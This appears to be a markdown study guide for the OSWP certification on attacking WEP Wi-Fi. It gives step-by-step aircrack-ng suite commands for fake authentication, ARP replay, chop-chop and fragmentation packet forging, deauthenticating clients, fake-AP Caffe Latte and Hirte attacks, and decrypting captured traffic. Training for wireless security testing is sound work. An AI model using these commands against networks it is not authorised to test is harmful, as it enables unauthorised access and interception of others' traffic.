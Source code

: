 ## WEP

<br><img align="center" alt="Coding" width="400" height="150" src="https://github.com/cabby1234/OSWP-Reference-Guide/assets/131496256/1647bf83-445e-464e-81bb-2e8e91c0972e">

CRC-32 is a digest, just like MD5

An attacker can sniff packets, where the IV (24 bit) is in plain text. since 24 bit is not much, capturing enough packets, statistical attacks can be run. RC4 generates the same keystring for a same IV+key. #Data in airodump shows how many useful packets have been captured. When enough are present we can crack it with:
``aircrack-ng archivo.cap``

Sometimes aircrack doesn't return the ascii version of the key but we can connect to the network with the hex (without the ":" ). 

If not many clients are connected we can force the AP to send us traffic. We first need to associate with it (otherwise it ignores our requests), then we can send packets and capture the IVs in the packets it returns to us.

For this, keep saving packets:
``sudo airodump-ng --bssid <bssid> --channel <channel> --write out wlan0mon``

and do a fake auth (the 0 indicates that the attack is done once):
``sudo aireplay-ng --fakeauth 0 -a <AP bssid> -h <la MAC de wlan0mon> wlan0mon``

In monitor mode, with ifconfig we see ``unspec`` instead of  ``ether`` and the MAC looks longer, we need only the first 6 bytes:
<font color=red>and for aireplay commands replace - by : </font>

At this point we are only associated to the AP, not connected to it. There are several methods to generate traffic:

#### Crafted ARP packets
Wait till there is an ARP packet (sent by the clients already connected to the network). They will be encrypted but because of their length we know they can be ARP. We just relay them to the AP. The AP will respond to us with another packet with a new IV. We do this until we have enough IVs.
To do this (just befor this command run the --fakeauth just in case)
It is necessary to use a target client MAC with -h, the MAC of a client that is already connected to the network and sends valid IVs
``sudo aireplay-ng --arpreplay -b <AP bssid> -h <target client MAC> wlan0mon``

<font color=red> The -a used in other commands is replaced by -b for the BSSID and the --arpreplay doesn't have any number afterward</font>
This captures packets until one of them is an ARP request, and then starts to generate traffic. Watch with airodump who many useful packets we have in ``#Data``.

<font color=red>to capture useful ARP packets we either need to be associated with the AP (fakeauth) or use with aireplay-ng arpreplay the MAC of an associated client</font>

Depending on the key length (64 or 128) bit it takes more IVs to crack the key

#### Stealthy sniffing
Just waiting for clients to send a lot of IVs to the AP can take a lot of time but it's stealty

#### Chop chop attack
Instead of replaying an ARP packet we determine the keystream of a packet, we craft a new packet with the keystream and inject it to the AP. The AP will respond with a new IV that we will replay, etc. Can be used when no clients are connected to the AP

<font color=red>The --fakeauth attack is only used against OPEN and WEP networks, it doesn't work against WPA/WPA2. Fake auth doesn't generate ARP packets. The lack of association with the access point is the biggest reason why injection fails, so we need to do fakeauth before trying to inject packets to WEP networks (ARP replay, chopchop, fragmentation attack).</font>
Sometimes you periodically get disassociation events. Some access points require to reassociate every 30 seconds, otherwise the fake client is considered disconnected. In this case, setup the periodic re-association delay:

```bash
aireplay-ng -1 30 -e 'the ssid' -a 00:13:10:30:24:9C -h 00:11:22:33:44:55 ath0
```
If fake authentication is never successful (aireplay-ng keeps sending authentication requests) then MAC address filtering may be in place

more info and troubleshooting in: https://www.aircrack-ng.org/doku.php?id=fake_authentication

```bash
# We first start airodump to capture packets and save them to a file
sudo airodump-ng --bssid <bssid> --channel <channel> --write out wlan0mon

# Then we do fake auth with aireplay to associate to the AP (run just before the chop chop attack). We can get our MAC with ifconfig wlan0
sudo aireplay-ng --fakeauth 0 -a <AP bssid> -h <our wlan0mon MAC that we want to associate> wlan0mon

# chop chop attack (waits for beacons from AP to try to determine keystream from them)
sudo aireplay-ng --chopchop -b <AP bssid> -h <our wlan0mon MAC> wlan0mon

# When it finds an ARP packet it asks if we want to use it. say "y". After a while it saves the keystream in a xor file. We can do ctrl-C to not wait much, but the saved keystream may fail. If so, keep the chop chop working for longer.

# After that, forge an ARP packet (-0 option)
packetforge-ng -0 -a <bssid> -h <our wlan0mon MAC address> -k 255.255.255.255 -l 255.255.255.255 -y <file.xor> -w <forged packet name>
# -k is destination IP (use 255.255.255.255)
# -l is source IP (use 255.255.255.255)
# <forged packet name> can be anything, it's the name of the forged packet

# having done --deauth again, use the forged packet:
sudo aireplay-ng -2 -r <forged packet name> wlan0mon
# -2 is for replaying
# it asks again if we want to use the packet. say "y", this starts to generate traffic that airodump caputres
```


#### fragmentation attack
Similar to chop chop but we need to obtain 1500 bytes from the pseudo random generator algorithm (PRGA). With this attack another packet is forged, but it's faster than chop chop, although we need to be physically close to the AP so that it works better.

```bash
# Start saving packets
sudo airodump-ng --bssid <bssid> --channel <channel> --write out wlan0mon

# fake auth (the 0 instructs to do the attack once)
sudo aireplay-ng --fakeauth 0 -a <AP bssid> -h <our wlan0mon MAC> wlan0mon

# Obtain PRGA
aireplay-ng --fragment -b <bssid> -h <our wlan0mon MAC> wlan0mon

# Say "y" when asked. It may fail several times and ask us if we want to use another. say "y" always. When one of the packets is useful it lets us know and saves the keystream in a .xor file

# forge a new packet (with -0 it creates an ARP packet)
packetforge-ng -0 -a <bssid> -h <nuestra mac de wlan0mon> -k 255.255.255.255 -l 255.255.255.255 -y <xor file> -w <output>

# inject the forged packet (remember to do fake auth just before this)
sudo aireplay-ng -2 -r <forged packet name> wlan0mon
```


#### WEP SKA
Normally when we do fake auth with aireplay-ng to a WEP network we can see it becomes OPN, but some routers allow to configure Shared Key Authentication (SKA), which prevents that no one without that key can associate to the AP (unlike in OPEN networks, where anyone can associate). In networks with SKA set up we will see SKA after doing fake auth. 

It is possible to deauthenticate a connected client, and capture the SKA when he reconnects. With this key we can associate to the AP and try the previous attacks to recover the WEP key.

We can also inject an ARP packet using the MAC address of the client which is already connected to the AP. With this we can generate traffic to recover IVs and still crack the WEP password, despite not having the SKA.

```bash
sudo aireplay-ng --arpreplay -b <AP bssid> -h <MAC of a connected client> wlan0mon
```

The 802.11w standard protects against deauth attacks, buth must be supported by both the client and the AP

When we have cracked a WEP or WPA key we can decrypt captured traffic in wireshark:

``preferences > protocols > IEEE 802.11``, check "enable decryption", edit the decryption keys y create new entries. For WEP, use the key in hex format.`

If we don't have wireshark we can do:
```bash
airdecap-ng -w <wep key in hex> <pcap>
tshark -r <decrypted pcap>
```


### AP-less attacks: Caffe latte attack
We can craft packets by modifying the ICV (integrity check value, that is, a CRC) and the plantext of a message and do so in a way that the AP thinks that the message is legitimate.

With this we can modify a Gratuitous ARP packet and change it to an ARP request packet, to repeat the ARP attack

Client devices store the keys of the networks they already connected to in the past. If we create a fake AP that looks like on of the stored APs in the client PNL, he will connect to us and send WEP-encrypted data with the target AP key. Sometimes it sends also Gratuitous ARP packets, to say its IP and MAC
 In these messages we won't find the target MAC, and the target IP and sender IP are the same (that of the client). We as an AP send requests to the client, and he will return responses to us, from where we get valid IVs that can be cracked as always.

We don't have a valid WEP keys for the crafted packets, but due to the properties of XOR we can modify the packets that he sends us, and they will still be valid.


#### Hirte attack
AP-less attack
```bash
# create fake AP (-N for hirte attack)
airbase-ng -c 1 --essid "network1" -W 1 -N mon0

# capture packets
airodump-ng -c 1 mon0 --write Hirte

# wait for the client to connect, and ARP packets should start being replayed, 
```


### WEP cloacking 
WEP protection in which fake packets are sent into the air to make it difficult to crack WEP (they try to difficult the statistical attacks)
